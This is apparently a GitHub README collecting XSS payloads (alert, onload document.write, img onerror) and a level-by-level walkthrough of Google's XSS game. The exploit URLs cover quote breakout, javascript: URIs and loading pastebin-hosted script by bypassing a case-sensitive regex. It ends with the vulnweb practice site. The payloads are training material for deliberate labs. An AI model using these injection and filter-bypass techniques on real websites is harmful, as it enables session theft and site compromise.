# Alert
```js
<script>alert("nu11secur1ty_is_here");</script>

<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 1
***The point of view***: **find POST, GET or INPUT and exploit them**

```url
https://xss-game.appspot.com/level1
```
- - Level 1

This is the most obvious and easiest one. Just insert following code and you're done:
```js
<script>alert(1)</script>
```
-------------------------------------------------------------------
- - Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:
```js
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>

-----------------------------

<img src="http://inexist.ent" onerror="javascript:alert(01100110011011110111001000100000011001100110100101111000001000000110100101101101011011010110010101100100011010010110000101110100011001010110110001111001)"/>

------------------------------

<img src="http://inexist.ent" onerror="javascript:alert(Hello, nu11secur1ty is here! Please fix this stupid problem!)"/>
```
--------------------------------------------------------------------
- - Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html:`
```html
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
```
As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

- - Exploit
```url
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
```
---------------------------------------------------------------
- - Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

```js
SyntaxError: unterminated string literal

startTimer(''');
```

Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal

    startTimer('')');
```

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal


    startTimer('')');
```

And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

- https://xss-game.appspot.com/level4/frame?timer=')%3B

```js
   SyntaxError: unterminated string literal


    startTimer('');');
```

Aha.. There you go! We can terminate the call and insert other ones. The final request:

- https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in


```js
startTimer('');alert(1);var b=('');
```

Boom: Nice one!

----------------------------------------------------------------------


- - Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

```js
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
```

So the window.location is set based on the `next` parameter. This is a typical case for DOM based XSS. Besides that we have in `signup.html`:

```js
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
```

Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
- Insert your Mail
- Click Next >>
- Voila!

-------------------------------------------------------------------------------

- - Level 6

This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```js
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
```
Afterwards the text after the hash is used as the scripts src:

```js
// Load this awesome gadget
scriptEl.src = url;
```

Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the `final PoC`:

- https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0

# Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

#####################################################################################

# test 2
```
http://testphp.vulnweb.com/
```
# find POST, GET or INPUT and exploit them

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
